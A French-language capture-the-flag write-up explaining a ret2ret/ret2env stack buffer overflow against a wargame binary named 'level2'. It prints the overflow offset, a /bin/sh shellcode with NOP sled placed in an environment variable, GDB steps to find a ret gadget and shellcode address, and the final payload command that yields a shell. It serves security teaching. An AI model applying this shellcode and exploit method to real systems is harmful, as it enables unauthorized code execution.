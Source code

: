 # Exploit ret2ret (ret2env) - Level2

## ✨ Objectif

Exploiter un binaire vulnérable via un débordement de tampon (“stack buffer overflow”) en utilisant une technique **ret2ret** combinée avec un **shellcode** placé dans l'environnement (ret2env).

---

## 🌐 Contexte

* Le binaire est protégé par une vérification :

  ```c
  if ((addr & 0xb0000000) == 0xb0000000) exit(1);
  ```

  Donc impossible de sauter directement vers la stack (`0xbffff...`), car bloqué.

* On contourne ce problème avec une astuce :

  * On saute à une **instruction `ret`** dans le binaire.
  * Cette instruction `ret` va ensuite sauter vers notre **shellcode** dans l'environnement.

---

## 🔢 Etapes de l’exploitation

### 1. Trouver l’offset pour atteindre EIP

```bash
python -c 'print("A"*80 + "BBBB")' > /tmp/payload
```

L’EIP est bien écrasé à 80 octets (0x42424242 = "BBBB").

---

### 2. Injecter le shellcode dans l’environnement

```bash
export SC=$(python -c 'print("\x90"*1000 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68" + "\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80")')
```

* Le `\x90` correspond à un NOP sled.
* Le reste est un shellcode pour lancer `/bin/sh`.

---

### 3. Trouver une adresse `ret` dans le programme

Dans GDB :

```bash
gdb ./level2
(gdb) disas main
```

Exemple :

```asm
0x0804854b <+12>:    ret
```

* Adresse à utiliser : `0x0804854b`
* Little endian : `\x4b\x85\x04\x08`

---

### 4. Trouver l'adresse du shellcode (dans l'env)

Dans GDB avec `SC` déjà exporté :

```bash
(gdb) x/200s *((char**)environ)
```

Exemple :

```
0xbfffff2a: "\x90\x90\x90...\x31\xc0\x50\x68..."
```

* Adresse shellcode = `0xbfffff2a`
* Little endian : `\x2a\xff\xff\xbf`

---

### 5. Construire le payload final

```bash
python -c 'print("A"*80 + "\x4b\x85\x04\x08" + "\x2a\xff\xff\xbf")' > /tmp/payload
```

---

### 6. Exécuter l’exploit

```bash
cat /tmp/payload - | ./level2
```

Tape ensuite :

```bash
whoami
```

Si tu vois :

```
level3
```

🎉 Exploit réussi !

---

## 🔎 A retenir

* Toujours **vérifier les protections** (NX, RELRO, etc)
* Si la stack est bloquée, essayer l'“environment”
* Une instruction `ret` dans le code peut servir de **trampoline**
* Toujours bien **convertir les adresses en little endian**

---

## 🎓 Liens utiles

* [Shellcode /bin/sh - shell-storm](http://shell-storm.org/shellcode/files/shellcode-219.html)
* [x86 Assembly Reference](http://ref.x86asm.net/coder.html)
* [NOP sleds - LiveOverflow](https://www.youtube.com/watch?v=1S0aBV-Waeo&t=818s)

---

Félicitations pour avoir compris et reproduit une attaque `ret2ret` ! 🚀
